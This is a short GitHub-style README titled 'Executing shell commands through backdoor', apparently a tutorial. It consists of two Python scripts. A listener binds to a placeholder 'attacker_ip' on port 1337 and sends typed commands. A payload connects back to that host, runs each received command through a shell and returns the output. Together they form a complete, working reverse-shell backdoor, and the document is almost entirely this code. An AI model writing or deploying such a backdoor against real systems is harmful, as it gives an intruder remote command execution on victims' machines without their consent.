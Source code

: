 <h2 align="center">Executing shell commands through backdoor</h2>
<p align="center"><img width="350" height="350" src="./src/banner_cnph.gif"></p>

- - - - - - - - - - - - - - - - - - - - - -
> [listener.py](listener.py)
```python
import socket

listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

listener.bind(("attacker_ip", 1337))

listener.listen()

print("Server has started")

connection, address = listener.accept()
print(f"Connected to {address}")

while True:
	cmd = input("enter a command: ")
	
	## if you want to quit and close the connection
	if cmd == "quit":
		connection.send(b"quit") # send quit message in bytes
		connection.close()	 # close the connection
		break			 # break the loop to stop
		
	connection.send(bytes(cmd, "utf-8")) 
	
	output = connection.recv(2048)
	print(output.decode("utf-8"))

print("Server has stopped")
```
---
> [payload.py](payload.py)
```python
import socket
import subprocess

payload = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

payload.connect(("attacker_ip", 1337))

print("Connected")

while True:
	cmd = payload.recv(2048)
	
	## if you want to quit and close the connection
	if cmd == b"quit":
		payload.close() # close the connection
		break		# break the loop to stop
		
	cmd = cmd.decode("utf-8")
	output = subprocess.check_output(cmd, shell = True)
	payload.send(output)

print("Disconnected") # display disconnection message
```
